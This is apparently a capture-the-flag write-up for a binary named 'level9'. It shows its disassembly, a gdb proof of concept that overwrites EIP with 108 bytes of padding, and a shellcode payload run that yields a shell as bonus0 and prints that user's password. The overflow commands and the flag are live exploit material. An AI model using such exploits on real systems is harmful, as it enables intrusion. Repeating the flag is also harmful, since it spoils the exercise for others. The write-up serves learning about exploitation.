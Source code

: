 ## Level 9

level9:c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

if  (argc == 1): exit; else: \_Znwj(0x6c)
```
   0x080485fe <+10>:    cmp    DWORD PTR [ebp+0x8],0x1
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    mov    DWORD PTR [esp],0x1
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    mov    DWORD PTR [esp],0x6c
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
```


Modifing EIP - poc
```
(gdb) r $(python -c 'import struct;print("A"*108+struct.pack("I", 0xbffff90b) + " CCCC")')
...
Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```

`shellcode.py` generates a payload that will give us a shell as the user bunus0

```
$ ./level9 $(python /tmp/shellcode9.py)
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
